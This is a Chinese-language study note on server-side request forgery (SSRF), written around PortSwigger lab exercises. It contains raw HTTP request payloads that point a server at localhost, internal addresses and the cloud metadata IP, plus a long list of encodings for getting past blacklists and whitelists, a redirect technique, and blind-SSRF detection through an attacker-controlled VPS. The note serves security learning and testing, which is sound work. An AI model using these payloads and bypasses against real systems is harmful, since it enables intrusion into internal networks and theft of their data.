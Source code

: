 # SSRF攻击方式汇总
> 关于SSRF的靶场通关笔记也以及完成，详见链接：[SSRF PortSwigger靶场通关笔记](https://github.com/shungli923/WowBigBug/blob/main/%E9%9D%B6%E5%9C%BA%E6%94%BB%E7%95%A5/SSRF%20PortSwigger%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.md)

## 原理

涉及到SSRF的地方往往与公司的整个内网有关，因此涉及到SSRF的漏洞往往都有还不错的危害评级。

如果把存在SSRF攻击面的机器比作公司大楼保安.

第一种SSRF就好比，攻击者穿着外卖员的衣服跟保安说要进去送个外卖，然后保安相信了，这个时候攻击者就可以在公司大楼内部到处闲逛，这种就属于危害级别最高的SSRF；

第二种SSRF是公司给保安交代了明确规定外来人员不准进入公司大楼，这个时候外卖员跟保安说去跟我带个信，说一声某人外卖到了，然后保安问了说有就是这个人确实点了外卖，说没有就说明这个人没有点外卖或者说没有这个人；

第三种SSRF就更难了，保安收到了公司消息说是不准外来人员进入大楼，那外卖员让保安带个信，问这个人在不在，在就下来拿外卖，然后又多问了一嘴，问从哪里下来的，大概要多久才能到这里，保安觉得没啥大不了问了就消息一并告诉他了。

SSRF的全称是服务器端请求伪造（Server-side request forgery），通常情况下他的起因是公司的某些服务器因为需要长期和外界网络进行信息交互，对外界的某些请求需要在公司内部其他服务器上进行查询，同时因为该机器需要保持与外界的交流，所以该机器对外界的消息传递是不得不接受的，而因为某些配置或者某些精巧的绕过手法使得攻击者的意图隐藏在了看似正常的消息传递环节里。而其他服务器在进行查询时返回了攻击者的期望内容，因此就产生了SSRF攻击。

## SSRF攻击服务器本机

在某些业务情况下，用户发起请求时服务器需要通过其内的api接口对信息进行访问，该接口由于其可以对输入url进行解析请求,并对请求结果返回，因此可以进行SSRF攻击，如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

将 api 处内容换位本机地址：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

如果服务器在对localhost内容进行请求，则顺利构成SSRF攻击。

## SSRF内网漫游

与上图一样，如果将请求的内容换成如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.1.1/admin
```

如果将上述内容 localhost 改为内网地址，在 burp 的intruder模块对内网地址进行爆破，对存活主机进行目录爆破，即可实现内网漫游。

## 黑名单绕过

上述两种SSRF可以说是非常理想的场景了，然而事实是，在如今的实际业务场景中几乎不会出现如此理想的攻击环境，往往存在各种的waf、行为感知、黑名单、百名单等进行攻击阻断

那么当127.0.0.1被禁止 了该如何处理？

以下都是可以尝试的替换方案：

```http
# Localhost 绕过
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR 绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制 绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制 绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 也可以尝试混合不同的绕过方式，可以使用如下网站借助完成：
# https://www.silisoftware.com/tools/ipconverter.php

# 比较少见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析绕过
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

## 白名单绕过

白名单的主要绕过方式来自于各设备的规律规则没有对URL的规范贯彻，主要就是 `@` 和 `#` 这两个符号：如下，其中一个 `url` 是白名单要求的 `url` ，另一个 `url` 是我们需要请求的 `url` ，这俩 `url` 随便顺序组合（最好都尝试），然后中间用 `@`、`#`、`@#`、`#@` 进行链接，甚至对各个符号进行一次编码、二次编码在进行拼接，甚至在`@#`和`#@`这种情况下对其中一个进行一次、二次编码之后再进行拼接。对，白名单就是这样进行绕过。

```txt
https://URL_1@URL_2
```

## 重定向里的SSRF

通常出现在这样的业务场景里，利用方式如下：

get方式：`/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin`

post方式：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin
```

## Blind SSRF

Blind SSRF的发现方式通常都是将自己vps的地址放在可能存在攻击点的地方，然后监听vps相应端口，等待攻击完成后看是否有收到像一个请求。从而判定是否存在Blind SSRF。

## Blind SSRF打出危害

由于Blind SSRF没有回显，因此相关的可以利用的价值极低，不过最近我发现了一个技术叫shellshock攻击的技术可以通过Blind SSRF拿出数据，还在研究，研究透彻了会发出。
